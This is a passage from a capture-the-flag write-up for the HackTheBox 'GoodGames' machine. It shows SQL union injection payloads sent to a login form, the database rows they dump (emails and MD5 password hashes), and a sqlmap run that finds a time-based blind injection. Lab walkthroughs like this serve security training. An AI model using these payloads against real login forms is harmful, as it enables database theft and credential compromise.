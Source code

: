 >   ' union select 1,2,3,concat(column_name, "/") from information_schema.columns where table_schema = 'main' and table_name = 'user'-- -

Finally, lets view the users in the table.

```http
- REQUEST -
POST /login HTTP/1.1
...
email=%27+union+select+1%2c2%2c3%2cconcat%28column_name%2c+%22%2f%22%29+from+information_schema.columns+where+table_schema+%3d+%27main%27+and+table_name+%3d+%27user%27--+-&password=

- RESPONSE -
...
1:admin:admin@goodgames.htb:2b22337f218b2d82dfc3b6f77e7cb8ec
2:shiro:shiro@gmail.com:5f4dcc3b5aa765d61d8327deb882cf99
...
```

>   ' union select 1,2,3,concat(id, ":", name, ":", email, ":", password) from user-- -

### Sqlmap Method

Instead of manually testing for SQL injection, we can just use `sqlmap`! OwO

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/GoodGames]
└─# cat login_request.txt
POST /login HTTP/1.1
Host: 10.10.11.130
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Origin: http://10.10.11.130
Connection: close
Referer: http://10.10.11.130/login
Upgrade-Insecure-Requests: 1

email=shiro&password=password

┌──(root㉿shiro)-[/home/shiro/HackTheBox/GoodGames]
└─# sqlmap -r login_request.txt --batch            
...
POST parameter 'email' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 146 HTTP(s) requests:
---
Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=shiro' AND (SELECT 5981 FROM (SELECT(SLEEP(5)))BwdU) AND 'rWMN'='rWMN&password=password
---
[19:37:27] [INFO] the back-end DBMS is MySQL
...

┌──(root㉿shiro)-[/home/shiro/HackTheBox/GoodGames]
└─# sqlmap -r login_request.txt --batch --dbs
...
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
2
[19:40:57] [INFO] retrieved: 
[19:41:02] [INFO] adjusting time delay to 1 second due to good response times
```